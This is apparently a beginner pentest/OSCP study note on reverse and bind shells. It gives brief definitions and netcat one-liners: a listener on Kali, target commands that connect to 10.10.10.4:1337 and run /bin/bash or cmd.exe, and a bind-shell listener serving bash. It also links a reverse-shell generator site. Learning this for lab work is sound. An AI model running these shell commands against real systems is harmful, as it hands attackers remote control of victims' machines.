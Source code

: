 ```yaml
---
title: "Reverse & Bind Shell"
classes: single
ribbon: LightBlue
categories:
  - notes
tags:
  - beginner
  - pentest
  - recon
  - oscp
  - msfvenom
  - shell
  - reverse
  - bind
toc: true
hide_title: true
excerpt: ""
---
```


https://www.revshells.com/ - Great site to generate Reverse Shell
## Reverse Shell

**A reverse shell is a type of shell where the target machine initiates a connection back to the attacker's system. This allows the attacker to bypass firewalls and NAT, gaining remote control over the victim machine through an outbound connection.**
### Kali

```
nc -nvlp 1337
```

### Target

```
nc 10.10.10.4 1337 -e /bin/bash
# Linux target

nc 10.10.10.4 1337 -e cmd.exe
# Window target
```

## Bind shell

**A bind shell is a shell set up on the target machine that listens on a specific port. The attacker then connects to this port to gain control. It requires the victim's firewall to allow incoming connections, making it less stealthy than a reverse shell.**
### Target

```
nc -nvlp 1337 -e /bin/bash
```

## Kali

```
nc 10.10.10.4 1337
```